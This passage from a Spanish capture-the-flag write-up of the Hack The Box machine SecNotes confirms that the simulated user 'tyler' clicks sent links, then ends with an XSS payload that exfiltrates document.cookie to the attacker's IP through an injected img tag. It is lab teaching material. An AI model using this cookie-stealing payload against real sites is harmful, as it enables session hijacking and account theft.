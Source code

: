 En vista de que recibimos nuestra propia cookie de sesión directamente en nuestro equipo, sería solo cuestión de tiempo para hacernos con las cookies de otros usuarios, si los existiera, claro está.

Por obvias razones no existen más clientes que interactuen con el servidor web, a excepción de uno. Si recordamos, el mensaje inicial que aparecía en la página, mencionaba que nos pongamos en contacto con `tyler` a través del botón _Contact Us_; así que lo primero que haremos sera  comprobar si este lee nuestros mensajes, para ello le enviaremos un url que apunte a nuestra máquina.

Es importante mencionar que no podemos ocultar nuestro url con _href_, _acortadores_, _iframe_ o algún otro método, ya que al ser un usuario simulado, este no lo gestiona muy bien. Por su parte, un usuario real, a no ser a que tenga nulos conocimientos de seguridad informática, abriría un enlace que le envía un total desconocido.

Sin cerrar nuestro servidor hosteado con `Python`, a través del botón _Contact Us_, enviaremos el siguiente mensaje para confirmar si `tyler` lee nuestros mensajes:

```html
http://nuestraDirecciónIP:80/tylerEstáPresente
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/17.png)

Vemos que conseguimos una petición por GET por parte de la máquina víctima, por lo que asumimos que este lee nuestros mensajes. Ya con esto podemos pensar que tenemos una posible vía potencial para hacernos con la cookie del usuario. Por lo cual, enviaremos el siguiente mensaje:

```html
<script>document.write('<img src="http://nuestraDirecciónIP:80/cookie=' + document.cookie + '">')</script>
```
